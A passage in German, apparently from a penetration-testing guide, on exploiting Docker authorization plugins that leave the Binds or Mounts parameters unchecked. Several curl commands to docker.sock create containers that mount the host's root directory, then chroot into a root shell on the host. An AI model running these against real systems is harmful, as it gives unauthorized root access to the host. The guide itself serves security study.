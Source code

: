 ## Ungeprüfter API-Endpunkt

Die Verantwortung des Sysadmins, der dieses Plugin konfiguriert, besteht darin, zu kontrollieren, welche Aktionen und mit welchen Berechtigungen jeder Benutzer ausführen kann. Daher könnte der Admin, wenn er einen **Blacklist**-Ansatz mit den Endpunkten und den Attributen verfolgt, **einige davon vergessen**, die es einem Angreifer ermöglichen könnten, **Privilegien zu eskalieren.**

Sie können die Docker-API unter [https://docs.docker.com/engine/api/v1.40/#](https://docs.docker.com/engine/api/v1.40/#) überprüfen.

## Ungeprüfte JSON-Struktur

### Binds im Root

Es ist möglich, dass der Sysadmin beim Konfigurieren der Docker-Firewall **ein wichtiges Parameter** der [**API**](https://docs.docker.com/engine/api/v1.40/#operation/ContainerList) wie "**Binds**" **vergessen hat**.\
Im folgenden Beispiel ist es möglich, diese Fehlkonfiguration auszunutzen, um einen Container zu erstellen und auszuführen, der den Root (/) Ordner des Hosts einhängt:
```bash
docker version #First, find the API version of docker, 1.40 in this example
docker images #List the images available
#Then, a container that mounts the root folder of the host
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "Binds":["/:/host"]}' http:/v1.40/containers/create
docker start f6932bc153ad #Start the created privileged container
docker exec -it f6932bc153ad chroot /host bash #Get a shell inside of it
#You can access the host filesystem
```
{% hint style="warning" %}
Beachten Sie, dass wir in diesem Beispiel den **`Binds`**-Parameter als Schlüssel auf der obersten Ebene im JSON verwenden, aber in der API erscheint er unter dem Schlüssel **`HostConfig`**.
{% endhint %}

### Binds in HostConfig

Befolgen Sie die gleichen Anweisungen wie bei **Binds in root** und führen Sie diese **Anfrage** an die Docker API aus:
```bash
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "HostConfig":{"Binds":["/:/host"]}}' http:/v1.40/containers/create
```
### Mounts in root

Befolgen Sie die gleichen Anweisungen wie bei **Binds in root** und führen Sie diese **Anfrage** an die Docker API aus:
```bash
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu-sleep", "Mounts": [{"Name": "fac36212380535", "Source": "/", "Destination": "/host", "Driver": "local", "Mode": "rw,Z", "RW": true, "Propagation": "", "Type": "bind", "Target": "/host"}]}' http:/v1.40/containers/create
```
### Mounts in HostConfig
